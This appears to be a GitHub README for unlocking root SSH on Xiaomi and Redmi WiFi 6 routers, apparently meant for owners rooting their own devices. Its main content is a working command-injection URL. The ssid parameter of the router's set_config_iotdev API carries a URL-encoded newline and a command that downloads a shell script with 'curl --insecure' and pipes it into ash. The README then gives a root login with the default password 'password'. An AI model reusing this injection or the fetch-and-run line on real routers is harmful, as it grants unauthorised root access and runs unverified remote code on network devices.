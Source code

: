 # Unlock-SSH-on-Xiaomi-and-Redmi-WiFi-6-routers

Login to the Web UI (http://192.168.31.1), get the stok parameter value from the URL, replace it in the below URL and run it on browser.
```
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=gallifrey&user_id=doctor&ssid=-h%0Acurl%20--insecure%20https%3A%2F%2Fgithub.com%2FKaMyKaSii%2FUnlock-SSH-on-Xiaomi-and-Redmi-WiFi-6-routers%2Fraw%2Fmaster%2Funlockssh.sh%20%7C%20ash%0A
```
Now you can connect to ssh with "ssh root@192.168.31.1", the default password is literally "password". Don't forget to change it afterwards.
